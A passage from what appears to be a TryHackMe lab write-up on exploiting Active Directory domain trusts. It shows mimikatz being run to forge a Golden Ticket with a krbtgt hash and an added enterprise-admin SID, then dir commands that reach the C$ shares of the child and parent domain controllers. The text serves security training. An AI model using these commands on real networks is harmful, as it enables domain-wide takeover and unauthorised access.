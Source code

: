Now that we got the SID its to exploit the Domain Trusts

### Exploiting Domain Trusts

```
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```
We will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:
```
dir \\thmdc.za.tryhackme.loc\c$
```
This at least confirms that the Golden Ticket was forged for access to the child DC. 

However, since we specified extra SIDs, we should also now have access to the parent DC:
```
dir \\thmrootdc.tryhackme.loc\c$\
```
